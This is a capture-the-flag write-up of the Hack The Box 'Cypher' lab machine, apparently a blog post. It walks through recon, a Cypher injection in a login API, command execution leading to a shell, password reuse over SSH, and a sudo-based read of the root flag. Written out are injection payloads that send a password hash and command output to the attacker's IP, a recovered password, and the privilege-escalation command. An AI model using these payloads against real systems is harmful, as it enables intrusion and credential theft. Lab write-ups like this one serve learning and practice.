---
title: 'HTB-Cypher'
published: 2025-07-12
draft: false
toc: true
tags: ["CypherInjection"]
---

```
Scope:
10.10.11.57
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -T5 --min-rate=5000 -Pn cypher.htb

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/TCP - HTTP



I went ahead and ran `gobuster` in the background.

I tried logging in with `admin - admin`:



In `caido` I noticed that the login request went through the `/api` endpoint:



In the meantime `gobuster` finished scanning:



I noticed some interesting endpoints, I started off with `/testing`:



I downloaded and unpacked the `java` archive:



I was able to find some versions:



Might come in handy.



Nothing really useful here either.

### Cypher Injection

I tried fiddling around with the parameters, thinking that there might be a `SQLi`, but instead I found something new:



I looked this error up:



I'd not heard of **Cypher Injection** beforehand so this was interesting:



Scrolling down I find:



Combining this with what we find in the error we can form a payload as follows:



```cypher
' OR 1=1 LOAD CSV FROM 'http://10.10.14.17/test='+h.value AS y RETURN ''//
```





#### John - FAIL



Unfortunately I cannot crack it:



# Foothold
## Cypher Injection -> RCE

Using the **Cypher Injection** vulnerability I started testing for **SSRF**:





I should now be able to tweak it in such a way that I could get a reverse shell out of it.

Using `backticks` I found out that I could inject and execute commands such as `whoami` and `id`:

```Cypher
{
  "username": "admin' RETURN h.value AS hash UNION CALL custom.getUrlStatusCode(\"http://10.10.14.17/`id`\") YIELD statusCode AS hash RETURN hash; //",
  "password": "admin"
}
```



Knowing that I had full RCE I could now issue a reverse shell command:





Now that I had a shell I started enumerating the target



Going into the `~` directory I found this:



```
cU4btyib.20xtCMCXkBmerhK
```

### Hydra - Password Spray

A quick check at password respraying showed me that this password was reused by *graphasm* for `ssh`:



## Lateral Movement



### user.txt



# Privilege Escalation
## Enumeration



I ran the binary and saw this:



Combining it together with the `--debug` we can run the following command and get `root.txt`:

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt --debug
```



### root.txt





---